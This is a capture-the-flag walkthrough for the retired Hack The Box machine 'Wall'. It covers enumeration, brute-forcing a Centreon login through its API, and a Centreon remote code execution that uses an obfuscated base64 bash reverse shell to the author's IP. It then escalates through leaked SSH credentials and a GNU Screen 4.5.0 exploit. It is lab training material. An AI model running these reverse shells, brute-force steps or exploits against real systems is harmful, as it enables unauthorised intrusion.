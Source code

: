 # Wall

This is the write-up for the box Wall that got retired at the 7th December 2019.
My IP address was 10.10.14.15 while I did this.

Let's put this in our hosts file:
```
10.10.10.157    wall.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/wall.nmap 10.10.10.157
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page is the Ubuntu Apache default page.

Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.157 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the directory _/monitoring_ and there it asks for credentials on a **Basic HTTP Authentication** login prompt.
When changing the request method from _GET_ to _POST_, it redirects to _/centreon_:

![Centreon Login](wall_web-1.png)

The software [Centreon](https://www.centreon.com/en/) is an open-source IT infrastructure monitoring platform and here it runs _version 19.04.0_ according to the footer of the page.

Searching for vulnerabilities:
```
searchsploit centreon
```
```
Centreon 19.04 - Remote Code Execution
```

There are **Remote Code Execution vulnerabilities** for this version of **Centreon** but they need authentication.
When trying to login, the login form automatically sends a CSRF-token that makes Brute-Force attacks harder, so that has to be bypassed first.
```
POST /centreon/index.php HTTP/1.1
Host: 10.10.10.157
(...)
useralias=admin&password=test123&submitLogin=Connect&centreon_token=40689610e721d072b95f69d3a682ebfb
```

According to the [Centreon documentation](https://docs.centreon.com/docs/centreon/en/19.04/api/api_rest/), there is an API that can be used for authentication:
```
POST /centreon/api/index.php HTTP/1.1
Host: 10.10.10.157

action=authenticate&username=admin&password=test123
```

It responds with a HTTP status code _401 Unauthorized_ but as it does not need any tokens, it can be used for a **Brute-Force attack**.
The default username for **Centreon** is _admin_, so only the password has to be guessed:
```
wfuzz -u http://10.10.10.157/centreon/api/index.php?action=authenticate -d 'username=admin&password=FUZZ' -w /usr/share/seclists/Passwords/darkweb2017-top1000.txt --hc 403
```

The word _password1_ comes back with a status code _200 OK_ and the credentials let us login into the Centreon platform.

> admin:password1

### Exploiting Centreon

The exploit has the CVE number _CVE-2019-13024_ and it allows the execution of commands in the current users environment.  
```
Configuration --> Pollers --> Configure Pollers --> Central
```

![Changing binary to whoami](wall_web-2.png)

On _Monitoring Engine Binary_ any binary in the context of the current user can be executed:
```
Configuration --> Pollers --> Choose Central --> Export Configuration --> Export
```

![Whoami gets executed](wall_web-3.png)

It cannot handle spaces, so to use commands with parameters, the **Internal Field Separator** variable will act as a space.
Also it should be Base64-encoded or otherwise it will have too many separators.

Base64-encoding the reverse shell command:
```
echo "bash -i >& /dev/tcp/10.10.14.15/9001 0>&1" | base64
```

Putting _Internal Field Separator variables_ in the command:
```
echo "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNS85MDAxIDA+JjEK | base64 -d | bash" | sed 's/ /${IFS}/g'
```

Saving the command in the application with a semicolon at the end:
```
echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNS85MDAxIDA+JjEK${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;
```

![Reverse shell command](wall_web-4.png)

Executing the command:
```
Configuration --> Pollers --> Choose Central --> Export Configuration --> Export
```

After exporting the configuration, the command gets executed and the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```
wget 10.10.14.15/linPEAS.sh

./linPEAS.sh
```

After enumerating the file system of the box, there is an interesting file in _/opt/.shelby_ called _backup_:
```
file backup

backup: python 2.7 byte-compiled
```

It is a compiled Python file and these can be decompiled with the Python module **uncompyle**.
```
pip install uncompyle
```

Decompiling the Python binary:
```
uncompyle6 backup.pyc
```

This script sends _/var/www/html.zip_ over SSH to _wall.htb_ with the credentials of the user _shelby_.
The password of that user is in the script and can be used to login into SSH:

> shelby:ShelbyPassw@rdIsStrong!

```
ssh shelby@10.10.10.157
```

### Privilege Escalation to root

The binary `screen` is installed in _version 4.5.0_ and this has a privilege escalation vulnerability:
```
searchsploit screen 4.5.0
```
```
GNU Screen 4.5.0 - Local Privilege Escalation
```

Lets copy the PoC code to the box and run it:
```
chmod +x screen_exploit.sh

./screen_exploit.sh
```

After executing the exploit, the command `id` shows that we got root!
